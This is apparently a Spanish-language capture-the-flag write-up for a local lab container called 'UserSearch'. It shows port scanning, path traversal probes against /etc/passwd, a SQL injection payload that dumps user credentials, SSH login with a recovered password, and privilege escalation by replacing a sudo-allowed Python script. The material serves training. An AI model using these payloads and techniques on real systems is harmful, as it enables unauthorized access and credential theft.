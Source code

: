 
# Máquina UserSearch

Una vez desplegado el contenedor, haremos un primer escaneo para ver que información podemos obtener. 

```bash 
nmap -sS -p- -Pn -n --min-rate=5000 172.18.0.2 -oN fScan 
```
Obtenemos lo siguiente. Los puertos 22 y 80 están con el estado open. 

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-09 05:13 EDT
Nmap scan report for 172.18.0.2
Host is up (0.0000080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:12:00:02 (Unknown)
```

Se podría realizar otro escaneo con nmap pero voy a investigar el puerto 80 para ver que información puedo obtener con whatweb.

```bash
whatweb http://172.18.0.2                                
```
Ya tenemos la versión del servicio que está corriendo en el puerto 80, que es Apache 2.4.59

```bash
http://172.18.0.2 [200 OK] Apache[2.4.59], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.59 (Debian)], IP[172.18.0.2], Title[User Search]
```

Antes de buscar vulnerabilidades sobre Apache, voy a visitar la página web. Por lo que parece, tengo permitido hacer un input en el cual se busca un usuario.
Supongo que ese usuario estará guardado en una base de datos por lo que por detras estará realizando una consulta.

![Captura](https://github.com/user-attachments/assets/57a2037f-d52b-41c1-892f-615f29d5f3fc)

Para empezar introduciré una palabra cualquiera y ver cual es la respuesta. 

![fsd](https://github.com/user-attachments/assets/59abe1c5-b6a3-4c00-bae1-d9e6751e9b66)

En la barra de búsqueda aparece un parámetro /?user= y en la página web nos avisan de un "Unauthorized query". Hice algunas pruebas con el repeater 
de Burp enviando ?user= con valores como ../../../etc/passwd o ....//....//....//....//etc/passwd pero no era vulnerable en ese aspecto, por lo que volveré 
al input de la página principal. 

Probando nombres aleatorios las respuestas cambian entre "Unauthorized query" o "No results found" aunque probando con "admin" se obtuvo una respuesta:

![admin](https://github.com/user-attachments/assets/445aa63c-6650-4232-82b1-d70d81880513)

Por la información que dan pienso que la query será algo como:
SELECT username, password FROM tabla_usuarios WHERE username=admin  

Probando distintos inputs SQLi obtuve una respuesta con:
admin' OR 1=1-- - 

![admin](https://github.com/user-attachments/assets/b10326e3-ee1e-47aa-8f3f-566379590b03)

Como ahora tenemos usuarios y contraseñas, se probará a realizar una conexión por ssh, pues tiene el puerto open. (administrador y user1 no funcionan)

```bash
ssh kvzlx@172.18.0.2 
kvzlx@172.18.0.2's password: 
Last login: Wed Jul  9 09:53:58 2025 from 172.18.0.1
kvzlx@85e9bcd37a39:~$ 
```

Ahora que estamos dentro, tendremos que intentar escalar privilegios. 

```bash
kvzlx@85e9bcd37a39:~$ sudo -l
Matching Defaults entries for kvzlx on 85e9bcd37a39:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User kvzlx may run the following commands on 85e9bcd37a39:
    (ALL) NOPASSWD: /usr/bin/python3 /home/kvzlx/system_info.py
```

Hay un archivo .py que el usuario puede usar con permisos, por lo que trataremos de escalar privilegios con el. Ese archivo está en la carpeta personal del usuario
pero tiene los siguientes permisos > -rwxr-xr-x 1 root  root   191 May 29  2024 system_info.py 
Probaremos a borrar el archivo a ver si podemos (al ser nuestra carpeta personal, deberíamos tener total control sobre los archivos). Fue posible borrar el archivo 
por lo que crearemos otro archivo .py con el mismo nombre para intentar escalar privilegios con Python. 

![escalada](https://github.com/user-attachments/assets/0c40a8f9-cfaf-4972-9777-b8a79b62fa7f)






